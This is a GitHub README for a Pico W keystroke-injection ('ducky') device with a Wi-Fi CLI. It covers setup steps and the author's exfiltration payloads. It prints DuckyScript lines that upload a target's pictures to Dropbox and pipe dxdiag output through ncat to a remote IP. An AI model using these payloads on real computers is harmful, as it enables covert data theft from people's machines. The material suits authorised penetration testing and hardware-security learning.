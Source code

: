
# Pico ducky with CLI over WiFi

Inspired by [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky). I decided pick up a [Raspberry Pi Pico W](https://www.raspberrypi.com/documentation/microcontrollers/raspberry-pi-pico.html) myself to experiment and play around with some of the ducky possiblities. I also added a CLI for the already existing web interface made by [dbisu](https://github.com/dbisu/pico-ducky).

### Use this tool and payloads to automate stuff and only for LEGAL purposes! Never target anyone if they DIDN'T give you permission as it is !!!ILLEGAL!!!

## Tools needed

Needed for this project:

- Raspberry Pi Pico W
- Micro USB to USB adapter
- Device to control pico through Wi-Fi (Laptop or phone with CLI)
(Optional) - stuff for payloads in this repository.
- Server to listen Ncat requests
- Dropbox access token

## Configuring Pico W

1.  [Download](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/tag/Release_v1.0) everything and un-zip ```Pico.W.release.zip```
2. Plug in Raspberry Pico W to your computer and drag ```adafruit-circuitpython-raspberry_pi_pico_w-en_US-8.0.0.uf2``` into ```RPI-RP2``` and wait till it reboots
3. Copy over these files: ```code.py```  ```boot.py```  ```duckyinpython.py```  ```secrets.py```  ```webapp.py```  ```wsgiserver.py``` and  ```lib``` folder from ``` Pico W Release```  folder
4. Create new payloads or use existing ones
5. (CAREFUL - if you have named script as ```payload1.dd```  it will run automatically after plugging in) Unplug and plug in again the Pico W 
6. You can now connect to ```TestAP``` WiFi access point and use CLI script [```CLI_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/download/Release_v1.0/CLI_4_web_ducky.py) for controlling the ducky remotely.
7. Don't do anything illegal and have fun automating stuff.
## Modifying ducky after setting it up

After setting everything up you might want to access the ducky again as mass storage device.

To do so, you need to:
- Connect the ```GP0``` and ```GND``` pin to not launch ```payload1.dd``` immediately after plugging it in (if you don't have ```payload1.dd``` on your ducky, then you can ignore this)
 
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/0dd89f32-3f50-4a92-9d01-3cd22131d31c)
- Connect the ```GP15``` and ```GND``` pin to have the ducky open up as mass storage device.
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/b62cd988-538b-4224-9a75-38c92c847a74)
## Main ducky script commands

```GUI r``` is the same as pressing ```win+r```. and can be used to launch ```cmd/powershell and other programs```

```STRING``` is used to type characters an example from my payload to force language to US in powershell
```
STRING Set-WinUserLanguageList -Force en-US

```
```REM``` is used to comment stuff out example from my payload. Everything in the same line after REM is simply ignored

```
REM You can change which ever path you want to the the pictures/files from.
REM Change line 32 to your OWN Dropbox access token
```

```DELAY``` is used to delay ducky from typing more commands and allow previous command to execute before the next one is ran. For example, if automating stuff on slower PC, ```DELAY``` will have to be increased or else the payload might mess up.
In example below ducky will wait 5 seconds after ```ENTER``` before executing next commands.
```
STRING Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
ENTER
DELAY 5000
```
```ENTER``` and ```DELETE``` are quite self explanatory. They can be used by themselves to either delete stuff or enter stuff.

Keys like ```CTRL```, ```ALT```, ```DELETE```,```ESC```,```TAB``` can be chained to gether to execute some of their combos.

More unique commands and keystrokes can be found in duckyinpython.py
## My payloads

I wanted to focus on exfiltration payloads and wanted to construct 2 scenarios with different exfiltration methods.

### 1. [Exfiltration using dropbox API](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/image_grab_n_exfiltrate.dd)

I got inspired from one of [Hack5 payloads](https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/exfiltration/dropbox-exfiltrator) to use dropbox API to exfiltrate some data. So I combined a script of gathering some pictures and the dropbox API script to exfiltrate images to my dropbox.

* One bad thing about this method of exfiltration is that [dropbox no longer supports long-lasting access tokens](https://developers.dropbox.com/oauth-guide#:~:text=Helper%20methods%20accept%20the%20refresh,for%20compatibility%20until%20mid%202021.) and current access tokens expire quite quickly which means the payload also needs to be changed often.

### 2. [Exfiltration using Ncat](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/dxdiag_ncat.dd)
For this exfiltration I wanted to demonstrate that if target system has a tool like Ncat, it can also be used to exfiltrate some information. So this payload is meant to exfiltrate dxdiag file from a Windows system to a remote PC by using ncat which is listening all the time. The script execute time is quite long because dxdiag takes some time. After that I used --ssl to encrypt the traffic.
```
ENTER
REM 12 second delay time to complete the dxdiag, since it takes a bit of time
DELAY 12000
REM takes dxdiag output and sends it over ncat to specific IP and port
STRING Get-Content "$env:TEMP\infins.txt" | ncat --ssl IP PORT
DELAY 100
ENTER
DELAY 5000

```

* This method can only work if target system has ncat installed.
## Web Interface

Web interface from [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky) was quite simple. 
It contained 6 access points:
- ```192.168.1.4:80/```
- ```192.168.1.4:80/ducky``` Main screen which displays available payloads
- ```192.168.1.4:80/new```  Used to create new payloads
- ```192.168.1.4:80/edit/<file_name>``` Used to edit existing payloads
- ```192.168.1.4:80/write/<file_name>``` Used as POST from edit to overwrite the previous payload
- ```192.168.1.4:80/run/<file_name>``` Execute the payload by its file_name

### Web Interface issues I noticed

* If file is edited or written by using web end points it will replace all ```+``` with ```space' '```. It is something that is needed to be kept in mind.
* Editing big payloads multiple times can sometimes crash the webserver and you will have to replug the ducky
* Editing non existant file will instanlty crash the Pico W webserver

## Command Line Interface
I made a CLI [```cmd_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/cmd_4_web_ducky.py) based on provided web endpoints. CLI can be used instead of the web interface since it might be easier to use on some systems rather than the web.

CLI has few options:

- Ability to list names of scripts that are loaded on ducky
```
python ./cmd_4_web_ducky.py -l
or
python ./cmd_4_web_ducky.py --list
```
- Ability to run the loaded in scripts
```
python ./cmd_4_web_ducky.py -r <script_name>
or
python ./cmd_4_web_ducky.py --run <script_name>
```
- Ability to create new scripts based on existing file in the system. 
```
python ./cmd_4_web_ducky.py -c <script_path>
or
python ./cmd_4_web_ducky.py --create <script_path>
```
- Ability to edit files on ducky. Existing file on ducky will get overwritten by the local file and there is a small chance that Pico W webserver might crash if payload is too big.
```
python ./cmd_4_web_ducky.py -e <script_name> <script_path>
or
python ./cmd_4_web_ducky.py --edit <script_name> <script_path>
```
- Ability to show the content of existing scripts on ducky
```
python ./cmd_4_web_ducky.py -s <script_name>
or
python ./cmd_4_web_ducky.py --show <script_name>
```
![cli](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/f947e091-dbc4-4347-a6f2-7cc033307920)
## Revert ducky back to Pico W

To revert pico ducky back to regular Pico W:

* Unplug the ducky
* Hold ```BOOTSEL``` button on Pico W and plug it in while holding down the button. It will open mass storage to reset the Pico W
* Download [flash.nuke.uf2](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)
* Drag ```flash.nuke.uf2``` it into ```RPI-RP2```
* After reset Pico W should be flashed and clean
